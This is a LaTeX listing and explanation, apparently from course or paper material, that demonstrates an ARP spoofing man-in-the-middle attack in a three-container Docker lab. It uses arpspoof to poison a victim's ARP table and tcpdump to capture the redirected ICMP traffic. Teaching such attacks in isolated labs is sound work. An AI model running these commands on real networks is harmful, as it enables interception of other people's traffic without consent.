 \begin{lstlisting}[caption={Docker container ARP spoof},captionpos=b]
(host)$ docker run --rm -it --name=victim0 --hostname=victim0 ubuntu:latest /bin/bash
(vic0)# apt update
...
(vic0)# apt install net-tools iproute2 iputils-ping
...
(host)$ docker run --rm -it --name=victim1 --hostname=victim1 ubuntu:latest /bin/bash
(host)$ docker run --rm -it --name=attacker --hostname=attacker ubuntu:latest /bin/bash
(atck)# apt update
...
(atck)# apt install dsniff net-tools iproute2 tcpdump
...
(atck)# arpspoof -i eth0 -t 172.17.0.2 172.17.0.3
...
(vic0)# arp
arp
172.17.0.3 ether 02:42:ac:11:00:04 C eth0
...
172.17.0.4 ether 02:42:ac:11:00:04 C eth0
(vic0)# ping 172.17.0.3
...
(atck)# tcpdump -vni eth0 icmp
...
10:16:18.368351 IP (tos 0x0, ttl 63, id 52174, offset 0, flags [DF], proto ICMP (1), length 84)
    172.17.0.2 > 172.17.0.3: ICMP echo request, id 898, seq 5, length 64
10:16:18.368415 IP (tos 0x0, ttl 64, id 8188, offset 0, flags [none], proto ICMP (1), length 84)
    172.17.0.3 > 172.17.0.2: ICMP echo reply, id 898, seq 5, length 64
...
\end{lstlisting}

We first start three containers and install dependencies. We then start to poison the ARP table of \lstinline{victim0}. We can observe this by looking at the ARP table of \lstinline{victim0} (with the \lstinline{arp} command). We see that the entries for \lstinline{172.17.0.3} and \lstinline{172.17.0.4} are the same (\lstinline{02:42:ac:11:00:04}). If we then start pinging \lstinline{victim1} from \lstinline{victim0} and looking at the \lstinline{ICMP} traffic on \lstinline{attacker}, we see that the \lstinline{ICMP} packets are routed through \lstinline{attacker}.

